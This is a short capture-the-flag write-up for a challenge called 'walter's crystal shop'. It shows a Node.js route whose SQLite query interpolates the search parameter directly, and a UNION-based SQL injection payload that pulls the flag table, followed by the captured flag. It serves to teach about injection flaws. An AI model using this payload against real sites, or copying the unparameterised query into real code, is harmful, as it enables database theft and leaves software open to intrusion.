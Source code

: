 # walter's crystal shop
> My buddy Walter is selling some crystals, check out his shop!

## About the Challenge
We were given a website and source code (You can download the source code [here](walters_crystal_shop.zip)). There's only 1 functionality where we can search some crstal


[Image extracted text: Walter's Crystal
Crystal Name:
Search Crystals
Name
Price
Quantity
Obsidian
S8
4
Labradorite
S25
2
Shop]


## How to Solve?
If we look at the source code, this website was vulnerable to SQL injection (SQLite)

```javascript
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});
```

And because the flag was located in a table called `flag`. To obtain the flag we need to input this payload

```
' union select (select * from flag),2,3-- -
```


[Image extracted text: Walter's Crystal Shop
Crystal Name:
union select (select
fron
Search Crystals
Name
Price
Quantity
Amethyst
S10
5
Citrine
S15
3
Clear Quartz
S5
10
Fluorite
S12
6
Labradorite
S25
2
Malachite
S16
4
Moonstone
S14
7
Obsidian
S8
4
Rose Quartz
S20
2
Turquoise
S18
1
nbctf{hOp3fuLLy_7h3_D3A_d035n7_knOw_abOut_th3_Oth3r_cRyst415}
S2
3]


```
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```